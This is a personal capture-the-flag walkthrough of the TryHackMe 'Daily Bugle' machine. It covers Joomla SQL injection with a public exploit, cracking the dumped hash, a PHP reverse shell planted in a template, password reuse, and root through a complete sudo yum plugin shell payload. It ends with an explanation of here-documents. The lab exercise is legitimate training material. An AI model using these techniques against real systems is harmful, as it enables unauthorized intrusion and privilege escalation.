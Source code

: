 ### Daily bugle

the [room](https://tryhackme.com/room/dailybugle)


# Starting

ok,let's go start this machine

```bash
export ip=10.10.208.176
echo $ip
```
as always i'll run nmap and i'm going to see if an web server exists

```bash
sudo nmap -sS -p- $ip -T4 -vv
```

ok,they have a web page...let me see what i find while gobuster is running

```bash
gobuster dir -w /usr/share/wordlists/sec-lists/Discovery/Web-Content/directory-list-2.3-big.txt -u $ip -x js,txt,php
```

ok, the web page is about a spider man robing a bank and have a interesting somethings, like a login fields a lot of directories that gobuster found.

the web site uses php and has a lot of parameters that i can try include something evil

this machine use something like Joomla, i don't know what is this but in readme.txt directory is saied a few interesting things.

like that joomla allows extensions :)

the content of robots.txt made me believe that this web server is misconfigured

i can access all of this directories that is in robots.txt file

~~~
Disallow: /administrator/  #login page
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
~~~

a few of this directories doesn't have anything, maybe i can run gobuster to brute force directories in these too,but it's so boring bro

i wanna believe that i won't need to do this

now what i'll do is take a look at all of these :) 

i could find the joomla version

	/administrator/manifests/files/joomla.xml

and the version is in this xml, i found it because i was search about how i would create a script that discover joomla version and i decide to try if this file had read permission :)

looks like this version has a SQL injection and i'm gonna search for an exploit

[exploit that i used](https://github.com/teranpeterson/Joomblah)

```bash
python3 joomblah.py $ip

Found table: fb9j5_users
Extracting users from fb9j5_users
Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']

```

```bash
john hash wordlist=/usr/share/wordlists/rockyou.txt 
```

after maybe 20 minutes john breaked this hash omg 

user: jonah
password: spiderman123

ok,now i have a administrator account.

i've successfully logged in web page /administrator and it looks like a word press admin panel or something like this

maybe i can update a php reverse shell as template or plugin?

yea,it works. I've updated the code in index.php file of the main template and now i'm inside the machine as apache user

and after this it was easy

i didn't have anything in contrab or suid permissions,any password or somethings like this

i was having a few errors with grep to find something interesting so i did the linpeas and he founds an password on php file, thanks god i'm really was tired of this

$pass = 'nv5uz9r3ZEDzVjNu'

and now

```bash
ssh jjameson@$ip  
```

now as i can the jjameson user and his password i can get the user.txt flag and see if i can do something for privilege escalation

```bash
sudo -l  
```

i can run /usr/bin/yum as sudo :)

```bash
TF=$(mktemp -d) #create a tmp directory and saves in TF variable

cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y #make the yum run y.py as sudo

```

explanation about "cat >$TF/x<<EOF" command

">" this operator outputs to a somewhere
e.g. 

```bash
echo "a" > a.txt
```
the output of echo command will be sended to a.txt file 

in this case cat output is sended to variable $TF/x that is, the temp directory that i created before and a new file that will be created. so,the output of cat command will be sended to x file in tmp directory

"<<" this is different, "here string" it's an way to enter a multiline string until the tag after this operand.

e.g.

```bash
$ cat > test << STOPTAG
> Now i can insert anything i want 
> if i put this STOPTAG here, the multiline don't stop because there has other words so the shell read all of these as strings
>  	STOPTAG
> the same thing occours if i put an space before the tag
> but if i put in this way, it's stopped
> STOPTAG

$ echo test
Now i can insert anything i want 
if i put this STOPTAG here, the multiline don't stop because there has other words so the shell read all of these as strings
  	STOPTAG
the same thing occours if i put an space before the tag
but if i put in this form, it's stopped
```
so, "cat >" is used to write for what the cat reads from terminal and sends it to test file

a little bit confusing ha

makes more sense when you understand the cat command 

because the cat command works of this way

```bash
$ cat 

a # your input
a # cat reads and send your output to terminal too

b # your input
b # cat output
```

```bash
$ cat > test2.txt

a # your input
b # your input

$ cat test2.txt
a 
b
```

i was thinking to do some hackthebox machines because thm box are a little bit easier i think so 